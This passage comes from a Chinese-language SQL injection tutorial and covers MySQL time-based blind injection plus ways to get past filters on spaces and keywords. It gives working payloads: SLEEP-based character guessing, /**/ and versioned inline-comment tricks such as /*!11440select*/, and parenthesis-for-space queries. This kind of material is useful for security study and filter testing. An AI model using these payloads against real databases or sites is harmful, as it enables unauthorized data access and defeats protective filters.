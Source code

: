 ```mysql
select * from users where id='1' and if(ord(substr(database(),1,1))=98,SLEEP(3),1)-- 
```

```mysql
select * from users where id='1' and if(ASCII(substr(database(),1,1))=98,SLEEP(3),1)-- 
```



+ **通过16进制编码**





### 5.2 绕过空格

**（1）注释绕过空格**

mysql有4种注释：单行注释`-- `、单行注释`#`、多行注释`/**/`、内联注释`/*!*/`

+ 多行注释`/**/`

可以使用多行注释符号绕过空格`/**/`。	

```mysql
select * from users where id='1'union/**/select/**/1,2,user()/**/from/**/test
```

+ 内联注释`/*!*/`

内联注释里的内容可以被mysql解析，会被当成正常语句的一部分被执行。也就是说，mysql语句的任意部分都能被内联注释包裹且正常执行。但关键词不能被拆分，例如`/*!sel*/ect`是不合法的。当在内联注释中指定版本号时，代表只有当前mysql版本号大于该版本号时，后面的语句才会执行，如`CREATE database db /*!40100 DEFAULT CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci*/`。

内联注释绕过and关键字：`/*!11444and*/`

内联注释绕过union select关键字：	

```mysql
/*!union*//*!select*/
union/*!11440 select*/
union/*!11440select*/
union/*!77777cz*//*!77777cz*/select	
```

*内联注释绕过函数：*

可以在函数名和括号直接添加内联注释`/*!77777a*/`绕过检测。例如，可以用`database/*!77777a*/()`绕过database()关键字。

注意，user()可以用`user/*!77777cz*/()`绕过，但session_user()不能`session_user/*!77777cz*/()`，否则语法报错，只能`/*!11440session_user()*/`。



**（2）括号绕过空格**

```mysql
select(COUNT(*))from(users)where(id)=0 and 1=1
```

```mysql
select*from(users)where(id)=(1)and(1=1) 
```

